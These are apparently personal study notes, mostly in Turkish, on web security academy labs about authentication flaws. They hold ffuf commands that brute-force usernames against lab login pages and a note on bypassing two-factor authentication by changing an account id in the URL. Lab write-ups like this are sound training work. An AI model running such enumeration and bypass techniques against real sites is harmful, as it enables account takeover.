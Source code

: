 # Lab1 

Burada brute-force ile username enumeration yapıyoruz.
Sistem kullanıcı adının sisteme kayıtlı olduğu bilgisini sızdırıyor.

[[Ffuf]] toolunu kullanarak :

```bash title:"payload"
ffuf -w usernames.txt -X POST -d "username=FUZZ&password=1" -u https://0ad1004e03366db781536c8a0022003b.web-security-academy.net/login -fs 3142 
```

payload'ı ile username i bulabilirsin sonrasında yine aynı payload ile şifreyi brute-force edebilrsin.
# Lab2 (2FA)

- Your credentials: `wiener:peter`
- Victim's credentials `carlos:montoya`

diğer hesaba girerken `/login2` endpointinde `2fa` kontrol ediyor doğruysa  beni `/my-account?id=wiener` e yönlediriyor  login2 kısmına girdikten sonrasında direk `/my-account?id=carlos` girersem bypass ediyorum


# Lab3 (Pass Reset)

Pass reset yaparken kullanıcı idsini alıyor 


# Lab4 ()

```bash
ffuf -w usernames.txt -X POST -d "username=FUZZ&password=11111" -u https://0a7f005f04b732ca81cec53900c50056.web-security-academy.net/login -fr "Invalid username or password\."
```
Bu payloadı kullanarak içerisinde `"Invalid username or password." `bulunan responseları filtrelersin. 
içerisinde `"Invalid username or password"` bulunan löpçük diye ortaya çıkar.